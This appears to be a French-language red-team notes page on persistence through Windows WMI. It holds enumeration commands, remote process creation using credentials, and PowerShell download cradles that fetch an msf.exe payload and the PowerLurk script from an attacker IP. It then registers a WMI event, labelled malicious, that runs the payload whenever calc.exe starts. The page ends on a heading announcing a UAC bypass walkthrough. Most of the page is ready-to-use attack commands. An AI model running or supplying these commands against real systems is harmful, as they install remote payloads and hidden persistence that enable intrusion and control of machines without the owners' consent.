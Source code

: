 #### Leveraging WMI and Methods for Persistence

```c
Get-Help wmi

Get-WmiObject -Namespace "root/cimv2" -Class "__Namespace"
Get-WmiObject -Namespace "root/cimv2" -Class "__Namespace" | Select-Object Name
Get-WmiObject -Namespace "root/cimv2" -List
Get-WmiObject -Namespace "root/cimv2" -List | Where-Object {$_.Name -Match "Win32_Service"}

Get-WmiObject -Class Win32_Service
Get-WmiObject -Class Win32_Service | Where-Object {$_.State -Match "Running"}
Get-WmiObject -Class Win32_Service | Where-Object {$_.Name -Match "Defend"}

Get-WmiObject -Class Win32_Process -List
Get-WmiObject -List Win32_Process | Get-Member -MemberType Method
```

Demarrer le cmd sous le processus wmi

```c
$proc = Get-WmiObject -List Win32_Process
$proc.Create("cmd.exe")
```

```c
Invoke-WmiMethod -Class Win32_Process -Name create -ArgumentList cmd.exe
```

Executer le cmd sur une machine a distance. (nous devons avons les informations d'identification)

```c
Invoke-WmiMethod -Class Win32_Process -Name create -ArgumentList cmd.exe -ComputerName {REMOTE_IP} -Credential {USERNAME}
```

Obtenir les informations sur l'ID d'un processus distance

```c
Get-WmiObject -Class Win32_Process -Filter {ProcessId = "xxxx"} -ComputerName {REMOTE_IP} -Credential {USERNAME}
```

```c
Get-WmiObject -Class Win32_Process -Filter {ProcessId = "xxxx"} -ComputerName {REMOTE_IP} -Credential {USERNAME} | Remove-WmiObject
```

**Persistence over cal.exe**
Payload download cradel

```c
IEX (New-Object Net.WebClient).DownloadFile("http://192.168.45.130/msf.exe", "C:\Temp\msf.exe");
```

Execute Remote PS1 Script download cradel

```c
IEX (New-Object Net.WebClient).DownloadString("http://192.168.45.130/PowerLurk.ps1"); Register-MaliciousWmiEvent -EventName CalcExec -PermanentCommand "cmd.exe /c C:\Temp\msf.exe" -Trigger ProcessStart -ProcessName calc.exe
```

View our malicious WMI Event

```c
IEX (New-Object Net.WebClient).DownloadString("http://192.168.45.130/PowerLurk.ps1"); Get-WmiEvent -Name CalcExec
```

Remove malicious WMI Event

```c
IEX (New-Object Net.WebClient).DownloadString("http://192.168.45.130/PowerLurk.ps1"); Get-WmiEvent -Name CalcExec | Remove-WmiObject
```


#### UAC Bypass PowerShell Exploit Script Walkthrough